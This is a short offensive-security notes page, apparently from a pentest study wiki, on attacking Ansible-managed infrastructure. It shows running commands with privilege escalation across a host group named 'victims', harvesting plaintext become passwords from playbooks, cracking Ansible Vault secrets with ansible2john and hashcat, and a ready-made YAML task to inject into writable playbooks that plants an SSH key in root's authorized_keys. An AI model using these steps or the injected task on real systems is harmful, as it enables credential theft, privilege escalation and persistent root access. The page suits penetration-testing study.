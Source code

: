 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# Ansible
#### Commands
_Ansible_ is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in `/etc/ansible/hosts`.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
&nbsp;
```shell
ansible victims -a "whoami"
```
&nbsp;
This will run `whoami` on all members of the Ansible group. To run it as root `ansible victims -a "whoami" --become` or specify the user `ansible victims -a "whoami" --become user2`.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in _/opt/playbooks_ to see if there's any info leakage.
I.E.
&nbsp;
```YAML
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
&nbsp;
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
&nbsp;
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
&nbsp;
Copy the hash starting with "$ANSIBLE_VAULT......." and use _ansible2john_ to convert it in a crackable way to then:
&nbsp;
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
&nbsp;
to then decrypt the vault like:
&nbsp;
```shell
cat pw.txt | ansible-vault decrypt
```
&nbsp;
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
&nbsp;
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
&nbsp;
Also, some modules from Ansible might leak data in /var/log/syslog (I.E. shell module)

